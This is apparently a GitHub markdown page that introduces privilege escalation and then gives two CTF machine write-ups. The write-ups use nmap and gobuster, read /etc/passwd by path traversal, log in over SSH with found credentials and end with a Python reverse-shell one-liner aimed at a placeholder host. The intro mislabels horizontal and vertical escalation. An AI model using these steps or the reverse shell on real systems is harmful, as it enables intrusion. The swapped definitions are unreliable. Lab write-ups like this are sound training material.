







# Privilege Escalation
> Is the act of exploiting a bug, design flaw or configuration oversight in an operating system or software application to gain elevated acces to resources that are normally protected from an application or user.

### Types of privilege escalation.
1. **Horizontal privilege escalation**

It requires the attacker to gain access to the account credentials as well as expanding their privileges.

The attacker has a few options to choose from, ie,
  1. to exploit vulnerabilities in the OS to gain system or root-level access.
  2. to use hacking tools like Metasploit to make the job abit easier.
  
2. **Vertical privilege escalation**

Gain access with existing account which has been compromised with the intent to perform actions as that person. Such include phishing emails that may ask to click the link and login to their account.

### Gathering information process
Using the Horizontal privilege escalation process, enumerate some information about the OS, users, applications running among so much more.

###### Enumerating Users
 - **Windows** net user
 - **Linux** cat /etc/passwd

Identify the current user
 - **Windows** net user
 - **Linux** id
 
###### Gathering OS information



By gathering information about the OS you're dealing with, some vulnerabilities can be exploited if the version of the said OS is outdated, or could be a zero-day exploit you come up with.

### Gathering Process information


This displays a list of the current running processes on the local computer or on a remote computer hence can help exploit weak configured services or applications with current user account privileges.

### Network information





This information can give an advantage of open ports and the protocols that are currently running on the system.

One of the popular vulnerability & exploit database that could help when searching for exploits is : [https://www.rapid7.com/db/](https://www.rapid7.com/db/)


### Automatic privilege escalation
This is done by the use of scripts.

###### Linux automatic privilege escalation
- LinuEnum
- Linuxprivchecker
- Linux Exploit Suggester 2
- Bashark
- BeRoot

###### Windows automatic privilege escalation
- Windows-Exploit-Suggester
- Windows Gather Applied Patches
- Sherlock
- JAWS - Just Another Windows(Enum) script
- PowerUp

Other several scripts are used in pentesting to quickly identify potential privilege escalation vectors.

Useful commands that can be used on both Linux and windows are:
| **Purpose of Command** | **Linux** | **Windows** |
| ---------------------- | --------- | ----------- |
| Name of current user | whoami | whoami |
| Operating system | uname -a | ver |
| Network configuration | ifconfig | ipconfig /all |
| Network connections | netstat -an | netstat -an |
| Running processes | ps -ef | tasklist |


----------------------------------------------------------------------------------
# Writeups

#### Challenge 1

###### Challenge Name : **Shadower**

Challenge Category : Machines

Challenge Level : Medium

Challenge Description : Get The highest privilege on the machine and find the flag!

Target IP: 35.156.4.248

**solution**

First off, let's do an nmap scan to identify which ports are open
```
┌──(fraize㉿fraize)-[~]
└─$ nmap 35.156.4.248                                                                           130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 11:51 EAT
Nmap scan report for ec2-35-156-4-248.eu-central-1.compute.amazonaws.com (35.156.4.248)
Host is up (0.0027s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 4.87 seconds
```
Ports 80/tcp and 443/tcp are open, so i'll check if there is anything interesting in the webpage.


unfortunately there's no much interesting stuff here to use since this is the default apache page.

Let's use **gobuster** to bruteforce any present directories within the page, let's hope there is something interesting on that page.
```
┌──(fraize㉿fraize)-[~]
└─$ gobuster dir -u http://35.156.4.248 -w /usr/share/dirb/wordlists/common.txt                 130 ⨯
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://35.156.4.248
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/05 11:58:58 Starting gobuster in directory enumeration mode
===============================================================
/.bashrc              (Status: 403) [Size: 67711]
/.hta                 (Status: 403) [Size: 277]  
/.htpasswd            (Status: 403) [Size: 277]  
/.htaccess            (Status: 403) [Size: 277]  
/.profile             (Status: 403) [Size: 67712]
/.swf                 (Status: 403) [Size: 67707]
/_vti_bin/shtml.dll   (Status: 403) [Size: 67722]
/_vti_bin/_vti_aut/author.dll (Status: 403) [Size: 67732]
/_vti_bin/_vti_adm/admin.dll (Status: 403) [Size: 67731] 
/index.php            (Status: 200) [Size: 827]          
/index.html           (Status: 200) [Size: 10932]        
/player.swf           (Status: 403) [Size: 67713]        
/server-status        (Status: 403) [Size: 277]          
                                                         
===============================================================
2021/07/05 12:00:27 Finished
===============================================================
```
We get index html and php pages but _index.html_ redirects to the ubuntu default page.


_index.html_, on the other hand, gives us some content to look into. 


Looking at the pages present, 'about us' and 'contact us' have no content, but the source code of 'contact us' has some hint of a page being present.


let's add the hint to the url `http://35.156.4.248/index.php?view=my0wns3cr3t.sec`


it's a directory as was predicting, that has a very long base64 text in the page source, let's try to decrypt it.

Trying to decrypt it and still decrypts until the 25th time whereby it is fully decrypted.

```
┌──(fraize㉿fraize)-[~]
└─$ python3 shadower_decoder.py                                                                   1 ⚙
[+] Text is:  b'B100dyPa$$w0rd'
```
So now we have a password `B100dyPa$$w0rd`, let's check if there is any page or something else we may find.

The view parameter takes the name of a file and include it in the web page so we can test and read `../../../../../../../../etc/passwd`, which works and we get a username for `john`.


Now that we have a username and password, let's try and login with those credentials via ssh

```
┌──(fraize㉿fraize)-[~]
└─$ ssh john@35.156.4.248
The authenticity of host '35.156.4.248 (35.156.4.248)' can't be established.
ECDSA key fingerprint is SHA256:6DSEvAPjxRdJNf+uSS+52ExrTwGjOZNvUr/VK+6yFBA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '35.156.4.248' (ECDSA) to the list of known hosts.
john@35.156.4.248's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 5.3.0-1034-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  5 13:02:51 UTC 2021

  System load:  0.0               Processes:                 117
  Usage of /:   48.7% of 7.69GB   Users logged in:           0
  Memory usage: 39%               IP address for eth0:       172.31.30.167
  Swap usage:   0%                IP address for ztmjfniy2o: 172.24.209.176

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

70 packages can be updated.
1 update is a security update.

New release '20.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


*** System restart required ***
Last login: Sun Jul  4 21:48:10 2021 from 102.120.213.224
john@ip-172-31-30-167:~$ 

```
We are now logged into the machine.

For privilege escalation, let's use linpeas `https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh` to enumerate for higher privilege.




> flag


#### Challenge 2

###### Challenge Name : **Injector**

Challenge Category : Machines

Challenge Level : Medium

Challenge Description : Get The highest privilege on the machine and find the flag!

Target IP: 52.57.53.227

Target IP: 18.193.68.184

**solution**

Let's do an nmap scan to identify open ports
```
┌──(fraize㉿fraize)-[~]
└─$ nmap 52.57.53.227
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-05 23:33 EAT
Nmap scan report for ec2-52-57-53-227.eu-central-1.compute.amazonaws.com (52.57.53.227)
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 35.01 seconds
```
There are 2 open ports, ie, port 22/tcp > ssh and port 80/tcp > http

We can check if there is anything useful.

Unfortunately we only have the default ubuntu apache page.

Let's bruteforce using gobuster to find any interesting directories.

```
┌──(fraize㉿fraize)-[~]
└─$ gobuster dir -u http://52.57.53.227/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://52.57.53.227/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/05 23:40:03 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/secret               (Status: 301) [Size: 313] [--> http://52.57.53.227/secret/]
/server-status        (Status: 403) [Size: 277]                                  
                                                                                 
===============================================================
2021/07/05 23:41:42 Finished
===============================================================                                                                     
```
we have a directory _/secret_ that we can now look into.


being no interesting thing, we can try bruteforcing the /secret directory.
```
┌──(fraize㉿fraize)-[~]
└─$ gobuster dir -u http://52.57.53.227/secret/ -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://52.57.53.227/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/05 23:58:22 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/company              (Status: 301) [Size: 321] [--> http://52.57.53.227/secret/company/]
/index.html           (Status: 200) [Size: 229]                                          
/robots.txt           (Status: 200) [Size: 25]                                           
/root                 (Status: 301) [Size: 318] [--> http://52.57.53.227/secret/root/]   
/test                 (Status: 301) [Size: 318] [--> http://52.57.53.227/secret/test/]   
/tools                (Status: 301) [Size: 319] [--> http://52.57.53.227/secret/tools/]  
                                                                                         
===============================================================
2021/07/05 23:59:44 Finished
===============================================================

```
we now got some interesting stuff here, we got /company, /root, /test, /tools

the first 3 have nothing interesting whereas the _/tools_ has some interesting content.


It's a pinging script vulnerable to Command Injection vulnerability.

we can as well get a reverse shell and spawning a tty shell using the following one line of code.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
